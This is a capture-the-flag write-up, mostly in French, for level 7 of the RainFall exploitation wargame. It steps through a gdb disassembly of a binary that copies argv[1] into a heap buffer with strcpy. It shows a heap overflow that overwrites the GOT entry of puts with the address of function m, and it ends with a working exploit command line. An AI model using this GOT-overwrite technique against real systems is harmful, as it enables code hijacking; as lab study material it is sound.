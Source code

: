 # level 07

We can also see that the program get the first argument line parameter at `main+103` and `main+106` :

```gdb
(gdb) x/wx $ebp+0xc
0xbffff734:     0xbffff7c4
(gdb) x/s *0xbffff7c4
0xbffff8e9:      "/home/user/level7/level7"
```

Legend:
=> endroit ou l on est dans GDB
*=> Moments cle qui aboutissent a l exploitation

Variables utiles:
argv[1]: 0xbffff8e0
argv[2]: 0xbffff8f5
malloc_1: 0x0804a008
malloc_2: 0x0804a018
malloc_3: 0x0804a028
malloc_3+4: 0x804a02c
malloc_4: 0x0804a038


=> <+3>: and esp,0xfffffff0
(gdb) x/20wx $esp
0xbffff708:     0x00000000      0xb7e454d3      0x00000003      0xbffff7a4
0xbffff718:     0xbffff7b4      0xb7fdc858      0x00000000      0xbffff71c
0xbffff728:     0xbffff7b4      0x00000000      0x0804825c      0xb7fd0ff4
0xbffff738:     0x00000000      0x00000000      0x00000000      0x9faf8153
0xbffff748:     0xa8e88543      0x00000000      0x00000000      0x00000000
(gdb) x/wx $esp+12
0xbffff714:     0xbffff7a4
(gdb) x/wx 0xbffff7a4
0xbffff7a4:     0xbffff8c7
(gdb) x/10s 0xbffff8c7
0xbffff8c7:      "/home/user/level7/level7"
0xbffff8e0:      'A' <repeats 20 times>
0xbffff8f5:      'B' <repeats 20 times>
0xbffff90a:      "SHELL=/bin/bash"

=> <+6>: sub esp,0x20
(gdb) x/20wx $esp
0xbffff700:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff710:     0x00000003      0xbffff7a4      0xbffff7b4      0xb7fdc858
0xbffff720:     0x00000000      0xbffff71c      0xbffff7b4      0x00000000
0xbffff730:     0x0804825c      0xb7fd0ff4      0x00000000      0x00000000
0xbffff740:     0x00000000      0x9faf8153      0xa8e88543      0x00000000

=> <+9>: mov DWORD PTR [esp],0x8
(gdb) x/20wx $esp
0xbffff6e0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff6f0:     0xb7fed280      0x00000000      0x08048619      0xb7fd0ff4
0xbffff700:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff710:     0x00000003      0xbffff7a4      0xbffff7b4      0xb7fdc858
0xbffff720:     0x00000000      0xbffff71c      0xbffff7b4      0x00000000

*=> <+16>: call   0x80483f0 <malloc@plt>: malloc(8) -> 0x0804a008 malloc_1

=> <+21>: mov DWORD PTR [esp+0x1c],eax : Push de malloc_1 dans la valeur de esp+28
   0xbffff6fc->0x0804a008->(0x00000000)

=> <+29>: mov DWORD PTR [eax],0x1: On met 0x1 dans malloc_1
(gdb) x/x $eax
0x0804a008: 0x00000001

=> <+35>: mov DWORD PTR [esp],0x8: Push de 0x8 sur la stack
(gdb) x/20xw $esp
0xbffff6e0:     0x00000008      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff6f0:     0xb7fed280      0x00000000      0x08048619      0x0804a008
0xbffff700:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff710:     0x00000003      0xbffff7a4      0xbffff7b4      0xb7fdc858
0xbffff720:     0x00000000      0xbffff71c      0xbffff7b4      0x00000000

*=> <+42>: call 0x80483f0 <malloc@plt> malloc(8) -> 0x804a018 malloc_2

=> <+47>: mov edx,eax: On met l'adresse de malloc_2 dans l'adresse de $edx

=> <+49>: mov eax,DWORD PTR [esp+0x1c]: on met l adresse de malloc_1 dans $eax

*=> <+53>: mov DWORD PTR [eax+0x4],edx : On met l'adresse de malloc_2 dans la valeur de malloc_1 + 4

=> <+56>: mov DWORD PTR [esp],0x8 : On met 0 en valeur sur la stack

*=> <+63>: call 0x80483f0 <malloc@plt> : malloc(8)
malloc_3 -> 0x0804a028

=> <+68>: mov DWORD PTR [esp+0x18],eax : on met l'adresse de malloc_3 dans la valeur de esp+0x18
(gdb) x/x $esp+0x18
0xbffff6f8:     0x0804a028

=> <+76>: mov DWORD PTR [eax],0x2 : On met 0x2 dans la valeur de malloc_3
(gdb) x/x $eax
0x804a028:      0x00000002

=> <+82>: mov DWORD PTR [esp],0x8 : On met 8 dans la valeur de esp

*=> <+89>:    call   0x80483f0 <malloc@plt> : malloc(8) malloc_4
malloc_4 -> 0x0804a038

=> <+94>: mov edx,eax : addresse de malloc_4 dans l adresse de $edx

=> <+96>: mov eax,DWORD PTR [esp+0x18] : On met l'adresse de malloc_3 dans $eax

=> <+100>: mov DWORD PTR [eax+0x4],edx : on met l adresse de malloc_4 dans malloc_3+4
(gdb) x/x $eax+4
0x804a02c:      0x0804a038

=> <+103>: mov eax,DWORD PTR [ebp+0xc] : On met une adresse qui pointe sur l'adresse de argv[0] du main dans $eax
(gdb) x/xw $ebp+0xc
0xbffff714:     0xbffff7a4
(gdb) x/xw 0xbffff7a4
0xbffff7a4:     0xbffff8c7
(gdb) x/s 0xbffff8c7
0xbffff8c7:      "/home/user/level7/level7"

=> <+106>: add eax,0x4 : On ajoute 4 a l adresse pour arriver a l adresse de argv[1]

=><+109>: mov eax,DWORD PTR [eax] : On met l'adresse direct de argv[1] comme adresse de $eax
(gdb) x/xw $eax
0xbffff8e0:     0x41414141


*=> <+111>: mov edx,eax : on met l adresse de argv[1] dans $edx
(gdb) x/xw $edx
0xbffff8e0:     0x41414141

*=> <+113>: mov eax,DWORD PTR [esp+0x1c] : on met l'adresse de malloc_1 dans $eax
(gdb) x/x $eax
0x804a008:      0x00000001

=> <+117>: mov eax,DWORD PTR [eax+0x4] : on prend l'adresse de malloc_2 dans $eax
(gdb) x/x $eax
0x804a018:      0x00000000

=> <+120>: mov DWORD PTR [esp+0x4],edx : on met l adresse de l'adresse de argv[1] dans la valeur de $esp+4

=> <+124>: mov DWORD PTR [esp],eax : on met l'adresse de malloc_2 dans la valeur de $esp

**=> <+127>: call 0x80483e0 <strcpy@plt> : strcpy(malloc_2, argv[1])
     Ici on va copier argv[1] dans malloc[2] et donc depasser autant que l on veut si besoin !

=> <+132>: mov eax,DWORD PTR [ebp+0xc] : On met l adresse qui contient l adresse d'argv[0] dans $eax

=> <+135>: add eax,0x8 : on ajoute 8 a $eax pour arriver a l'adresse qui contient l'adresse de argv[2]
(gdb) x/xw $eax
0xbffff7ac:     0xbffff8f5
(gdb) x/s 0xbffff8f5
0xbffff8f5:      'B' <repeats 20 times>

=> <+138>: mov eax,DWORD PTR [eax] : On met l'adresse direct de argv[2] dans $eax
(gdb) x/s $eax
0xbffff8f5:      'B' <repeats 20 times>

=> <+140>: mov edx,eax : On met l adresse de $eax dans l adresse de $edx

=> <+142>: mov eax,DWORD PTR [esp+0x18] : on met l adresse de malloc_3 dans l adresse de $eax
(gdb) x/xw $esp+0x18
0xbffff6f8:     0x0804a028
(gdb) x/xw 0x0804a028
0x804a028:      0x41414141
    ->(gdb) x/x $eax
    ->0x804a028:      0x41414141

**=> <+146>: mov eax,DWORD PTR [eax+0x4] : On met le contenu de la valeur finale de malloc_3+4 dans l'adresse d'$eax /!\ Donc si j ai bien compris, c'est argv[1][20:24]
(gdb) x/x $eax+4
0x804a02c:      0x0804a000
     ->(gdb) x/x $eax
     ->0x804a000:      0x00000000
/!\ C'est quelque chose que l'on peut overwrite /!\

=> <+149>: mov DWORD PTR [esp+0x4],edx : on met l adresse de argv[2] dans la valeur d'$esp+4

=> <+153>: mov DWORD PTR [esp],eax on met le contenu de malloc_3+4 dans la valeur d'$esp

**=> <+156>: call 0x80483e0 <strcpy@plt> : strcpy([malloc_3+4], argv[2])

donc enfaite a argv[1]+20 on met une adresse et on ecris dedans avec argv[2]


Explication simplifiee:
dans le premier strcpy(malloc_2, argv[1]), on peut deborder sur malloc_3+4.
La valeur de malloc_3+4 deviendra l adresse dans laquelle on va ecrire avec strcpy(malloc_3+4, argv[2])
On peut donc ecrire une adresse d'une autre fonction dans cette adresse et la nouvelle fonction sera appeler a la place de l'ancienne

Dans la fonction "m" on recupere le resultat de la fonction fgets a *main+202 qui est stocker dans l adresse 0x8049960 et l affiche, on affiche aussi le decompte des secondes passees depuis l annee 1970, mais cela ne nous interesse pas.

Nous allons donc remplacer l adresse de puts par l adresse de la fonction "m"

Nous pouvons recuperer l adresse de puts sur la global offset table avec la commande suivante:

level7@RainFall:~$ objdump -R level7
level7:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen

et voici l adresse de la fonction "m":
(gdb) x/wx m
0x80484f4 <m>:  0x83e58955


La commande suivante recupere le flag:
./level7 $(python -c "print '\x41' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")










